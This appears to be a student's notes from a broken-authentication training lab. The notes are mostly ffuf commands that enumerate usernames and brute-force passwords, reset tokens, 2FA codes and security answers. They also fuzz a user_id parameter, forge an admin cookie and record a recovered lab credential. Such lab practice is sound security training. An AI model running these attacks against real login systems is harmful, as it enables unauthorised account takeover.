 # Broken Authentication

# Enumerating Users

```bash
 ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://83.136.255.254:46844/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"

```

# Brute-Forcing Passwords
``` bash
#wordlist
grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt


ffuf -w ./custom_wordlist.txt -u http://83.136.255.254:35797/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"

```


# Brute-Forcing Password Reset Tokens

```bash

seq -w 0 9999 > tokens.txt

ffuf -w ./tokens.txt -u http://94.237.54.201:51355/reset_password.php?token=FUZZ -fr "The provided token is invalid"


```

# Brute-Forcing 2FA Codes

```bash

seq -w 0 9999 > tokens.txt

# Use burp is better options

ffuf -w ./tokens.txt -u http://83.136.254.47:30708/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=elube2kup1sp4lrig8omh7pijn" -d "otp=FUZZ" -fr "Invalid 2FA Code"

```

# Vulnerable Password Reset

```bash
wget  https://raw.githubusercontent.com/datasets/world-cities/refs/heads/master/data/world-cities.csv

cat world-cities.csv | grep "United Kingdom" | cut -d ',' -f1 > United_Kingdom_cities.txt

ffuf -w ./United_Kingdom_cities.txt -u http://83.136.254.113:30679/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=j9c0dfgdjrj0bd502vtldl0pp6" -d "security_response=FUZZ" -fr "Incorrect response." 



```

# Authentication Bypass via Direct Access

```bash

# note: go to burp repeter and go to admin page (admin.php)

```

# Authentication Bypass via Parameter Modification

``` bash
seq 0 1000 > number_1000.txt

ffuf -w ./number_1000.txt -u "http://83.136.249.29:30975/admin.php?user_id=FUZZ" -fr "Could not load admin data. Please check your privileges"

```

# Attacking Session Tokens

```bash
# get the cookie and modify

echo -n 'user=htb-stdnt;role=admin' | xxd -p

```

# Skills Assessment 


```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.57.13:32355/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown username or password" -fs 6995

#gladys:dWinaldasD13


# when login with the username and passowrd change the request dir to profile.php and we can bypass 2fa.


```


